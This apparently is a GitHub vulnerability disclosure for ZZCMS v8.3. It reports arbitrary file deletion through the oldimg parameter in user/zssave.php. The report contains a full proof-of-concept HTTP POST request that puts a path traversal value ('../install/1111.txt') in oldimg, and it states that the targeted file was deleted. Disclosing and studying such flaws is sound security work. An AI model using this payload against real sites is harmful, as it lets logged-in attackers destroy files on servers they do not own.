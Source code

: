 
# ZZCMS V8.3 Arbitrary file deletion vulnerability in user/zssave.php line 107 via the oldimg parameter
## Vulnerability CMS and version
zzcms v8.3   Download link:http://www.zzcms.net/download/zzcms8.3.zip
## Triggering conditions
Log in to access the user/zssave.php page
## Vulnerability details
in CMS /user/zssave.php line 107,The CMS determines whether the oldimg parameter value exists. If it exists, then delete it and update it. Because the framework does not perform security filtering on the oldimg parameter value, any file deletion vulnerability is caused.
![](https://github.com/seedis/zzcms/blob/master/image/delete1.png)

## POC
```
POST /user/zssave.php HTTP/1.1
Host: 192.168.30.216
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.30.216/user/zsmodify.php?id=1&page=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 395
Cookie: bdshare_firstime=1537240796511; PHPSESSID=gdfrssod38corqta0eho4shcs4; UserName=test; PassWord=a3f1308bd904cf33127380012be39839
Connection: close
Upgrade-Insecure-Requests: 1

proname=test&szm=&bigclassid=1&gnzz=test&sx%5B%5D=&sx%5B%5D=&sx%5B%5D=&sx%5B%5D=&sm=test&province=%E5%8C%97%E4%BA%AC&city=%E5%B8%82%E8%BE%96%E5%8E%BF&xiancheng=%E5%BB%B6%E5%BA%86%E5%8E%BF&cityforadd=%E5%BB%B6%E5%BA%86%E5%8E%BF&oldimg=../install/1111.txt&img=%2Fimage%2Fnopic.gif&oldflv=&flv=&zc=&yq=&cpid=1&action=modify&page=1&Submit=%E4%BF%9D%E5%AD%98%E4%BF%AE%E6%94%B9%E7%BB%93%E6%9E%9C%0D%0A

```
Here we create the 1111.txt file in the install directory for testing.Then delete the file by constructing a request,The oldimg parameter value is 1111.txt 
![](https://github.com/seedis/zzcms/blob/master/image/delete2.png)

After the request is successful, you can see that the file 1111.txt we constructed was successfully deleted.
![](https://github.com/seedis/zzcms/blob/master/image/delete3.png)
